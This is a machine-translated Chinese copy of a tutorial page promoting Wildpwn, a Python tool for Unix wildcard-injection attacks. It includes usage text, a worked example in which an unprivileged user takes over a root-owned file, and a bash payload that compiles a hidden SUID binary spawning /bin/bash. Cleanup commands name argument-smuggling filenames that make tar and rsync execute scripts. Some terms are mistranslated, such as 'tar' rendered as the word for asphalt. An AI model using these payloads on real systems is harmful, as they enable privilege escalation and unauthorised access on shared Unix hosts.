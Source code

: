 # wild pwn–用于 Unix 通配符攻击的工具

> 原文：<https://kalilinuxtutorials.com/wildpwn-unix-wildcard-attacks/>

**Wildpwn** 是一个 Python UNIX 通配符攻击工具，帮助你生成攻击。它被认为是一个相当古老的攻击媒介，但它仍然经常工作。

## **Wildpwn 用法**

事情是这样的:

```
`usage: wildpwn.py [-h] [--file FILE] payload folder

Tool to generate unix wildcard attacks

positional arguments:
  payload      Payload to use: (combined | tar | rsync)
  folder       Where to write the payloads

optional arguments:
  -h, --help   show this help message and exit
  --file FILE  Path to file for taking ownership / change permissions. Use it
               with combined attack only.` 
```

## **有效载荷类型**

*   **组合:**使用 chown & chmod 文件引用技巧，在 4.1 和 4.2 节中描述，组合在一个有效载荷中。
*   **tar:** 使用 tar 任意命令执行技巧，如 4.3 节所述。
*   **rsync:** 使用 rsync 任意命令执行技巧，如 4.4 节所述。

**又读[SV Scanner——扫描器漏洞和大规模利用](https://kalilinuxtutorials.com/svscanner-vulnerability-massive-exploit/)**

## **例子**

```
$ ls -lh /tmp/very_secret_file
-rw-r--r-- 1 root root 2048 jun 28 21:37 /tmp/very_secret_file

$ ls -lh ./pwn_me/
drwxrwxrwx 2 root root 4,0K jun 28 21:38 .
[...]
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_1
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ python wildpwn.py --file /tmp/very_secret_file combined ./pwn_me/
[!] Selected payload: combined
[+] Done! Now wait for something like: chown uid:gid *  (or)  chmod [perms] * on ./pwn_me/. Good luck!

[...time passes / some cron gets executed...]

# chmod 000 * (for example)

[...back with the unprivileged user...]

$ ls -lha ./pwn_me/
[...]
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_1
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ ls -lha /tmp/very_secret_file
-rwxrwxrwx 1 root root 2048 jun 28 21:38 /tmp/very_secret_file
```

## 用于 tar/rsync 攻击的 Bash 脚本

```
**#!/bin/sh

# get current user uid / gid
CURR_UID="$(id -u)"
CURR_GID="$(id -g)"

# save file
cat > .cachefile.c << EOF
#include <stdio.h>
int main()
{
setuid($CURR_UID);
setgid($CURR_GID);
execl("/bin/bash", "-bash", NULL);
return 0;
}
EOF

# make folder where the payload will be saved
mkdir .cache
chmod 755 .cache

# compile & give SUID
gcc -w .cachefile.c -o .cache/.cachefile
chmod 4755 .cache/.cachefile**
```

#### **清理(焦油)**

```
# clean up
rm -rf ./'--checkpoint=1'
rm -rf ./'--checkpoint-action=exec=sh .webscript'
rm -rf .webscript
rm -rf .cachefile.c
```

#### **清理(rsync)**

```
# clean up
rm -rf ./'-e sh .syncscript'
rm -rf .syncscript
rm -rf .cachefile.c
```

[![](img//d861a9096555aeb1980fc054015933d7.png) ](https://github.com/localh0t/wildpwn/) **信用:莱昂·尤拉尼克**